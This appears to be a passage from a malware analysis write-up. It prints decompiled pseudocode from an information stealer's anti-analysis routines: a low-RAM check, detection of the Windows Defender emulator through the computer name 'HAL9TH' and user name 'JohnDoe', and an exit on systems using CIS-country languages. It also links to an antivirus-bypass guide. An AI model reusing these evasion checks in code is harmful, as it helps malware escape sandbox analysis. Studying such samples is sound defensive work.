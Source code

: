 ```cpp
    v1 = sub_4133A0(Buffer.ullTotalPhys, HIDWORD(Buffer.ullTotalPhys), 1024, 0);
    v0 = sub_4133A0(v1, HIDWORD(v1), 1024, 0);
    v4 = v0;
  }
  else
  {
    v4 = 0i64;
  }
  if ( v4 < 0x457 )
    ExitProcess(0);
  return v0;
}
int mlw_check_windows_sandbox_name()
{
  LPSTR computername; // eax
  int result; // eax
  CHAR *username; // eax
  CHAR *v3; // [esp-4h] [ebp-4h]
  _BYTE *v4; // [esp-4h] [ebp-4h]

  v3 = (CHAR *)HAL9TH;
  computername = mlw_get_computername();
  result = strcmp(computername, v3);
  if ( !result )
  {
    v4 = (_BYTE *)JohnDoe;
    username = mlw_get_username();
    result = strcmp(username, v4);
    if ( !result )
      ExitProcess(0);
  }
  return result;
}
```

You can read more about it [here](https://book.hacktricks.xyz/windows-hardening/av-bypass)

# Anti Cis

Doesn't let stealer run on pc residents of former cis countries.

```cpp
int mlw_anti_cis()
{
  int lang; // eax

  lang = GetUserDefaultLangID();
  switch ( (__int16)lang )
  {
    case 1049:                                  // Russia
      ExitProcess(0);
    case 1058:                                  // Ukrainian (Ukraine)
      ExitProcess(0);
    case 1059:                                  // Belarusian (Belarus)
      ExitProcess(0);
    case 1087:                                  // Kazakh (Kazakhstan)
      ExitProcess(0);
    case 1091:                                  // Uzbek (Latin, Uzbekistan)
      ExitProcess(0);
    default:
      return lang;
  }
}
```